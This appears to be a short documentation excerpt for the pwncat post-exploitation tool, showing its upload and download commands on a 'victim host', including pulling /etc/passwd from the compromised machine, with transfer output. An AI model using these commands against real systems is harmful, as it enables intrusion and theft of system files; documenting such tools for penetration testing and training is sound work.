

# (up|down)load --help
File upload/download
Easily upload a file to the victim host (with local and remote tab completion)
(local) pwncat$ upload /etc/hosts /tmp/hosts
  /tmp/hosts ━━━━━━━━━━━━━ 100.0% • 622/622 bytes • ? • 0:00:00
  [11:45:17] uploaded 622.00B in 0.27 seconds
Download files just as easily
(local) pwncat$ download /etc/passwd ./passwd
  /etc/passwd ━━━━━━━━━━━━━━━ 100.0% • 1.6/1.6 KB • ? • 0:00:00
  [11:49:05] downloaded 1.59KiB in 0.27 seconds